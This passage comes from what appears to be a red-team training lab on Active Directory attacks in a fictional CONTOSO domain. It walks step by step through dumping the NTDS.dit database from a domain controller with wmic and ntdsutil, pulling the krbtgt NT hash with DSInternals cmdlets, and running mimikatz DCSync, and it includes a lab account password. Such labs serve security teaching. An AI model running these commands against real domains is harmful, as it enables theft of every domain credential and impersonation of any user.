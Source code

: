 1. [] Still in the red prompt, run `wmic /node:DC01 process call create "ntdsutil \"activate instance ntds\" ifm \"create full C:\IFM\" quit quit 2>&1 > C:\output.txt"`

    This create an IFM copy in the C:\IFM folder. It can take few minutes to be generated.

1. [] Then copy the stuff locally in a new folder. Still in the red prompt, run the following: `mkdir C:\Users\Public\IFM` and copy the IFM from the DC by running `copy "\\DC01.contoso.com\C$\IFM\Active Directory" C:\Users\Public\IFM` then `copy \\DC01.contoso.com\C$\IFM\Registry C:\Users\Public\IFM`

1. [] Switch to the **Terminal console**, the one running with your account (not Katrina's). In the terminal, change the current directly with the command `Set-Location C:\Users\Public\IFM`

1. [] Let see if you can read the database you have. Run the following `Get-ADDBDomainController -DatabasePath NTDS.dit`

    Good! It seems that this is usable. Let's try to read a user account.

    >[!knowledge] This PowerSHell cmdLet is a part of the DSInternal module.

    📝 Is the DS Internal PowerShell module available by default on Windows?

1. [] From the **Terminal console**, run the following: `Get-ADDBAccount -SamAccountName krbtgt -DatabasePath ntds.dit`

    It seems that we can read everything but the secrets... Oh of course, you almost forgot. There are encrypted. So first we get the key and then we extract the secret of the KrbTgt account.
    
1. [] Still in the **Terminal console**, run the following: `$syskey = Get-BootKey -SystemHiveFilePath SYSTEM` then `Get-ADDBAccount -SamAccountName krbtgt -DatabasePath ntds.dit -BootKey $syskey`

    📝 What are the last four characters of the NTHash of the krbtgt account? 

    Now that you have the KrbTgt hash in your possession, well you could impersonate whoever you want!

===

## Exercise 2 - Replicate the database

In this exercise, <font style="color:red;">**Miss Red**</font> you will use the credentials you previously compromised to replicate the database and all its secrets.
The account you have full access to is **CONTOSO\katrina.mendoza.adm**. 

1. [] Log on to **@lab.VirtualMachine(CLI01).SelectLink**. Use the following credentials:
    |||
    |:--------|:--------|
    | Username | `CONTOSO\red` |
    | Password | Please type the password |

1. [] At this point, you should have two windows opened, a Windows Terminal prompt and a red prompt. If you have closed them re-open them by right clicking on the Start menu ![image](.\IMG\11menu.png) and clicking on **Windows Terminal (Admin)**. In the **Windows Terminal** window, run the following: `runas /user:CONTOSO\katrina.mendoza.adm cmd.exe` and use the following password `NeverTrustAny1!`. A new command prompt should have popped up called **cmd.exe (running as CONTOSO\katrina.mendoza.adm)**. To make it easier to keep track, we'll rename the window and change the color. Run the following in that prompt `title Katrina's console & color 4F`.

1. [] In the red prompt, change the current directory `cd \Tools\mimikatz` then execute `mimikatz.exe`. 

1. [] In the **mimikatz 2.2.0 x64 (oe.eo)** prompt, run the following `lsadump::dcsync /domain:contoso.com /user:blue`
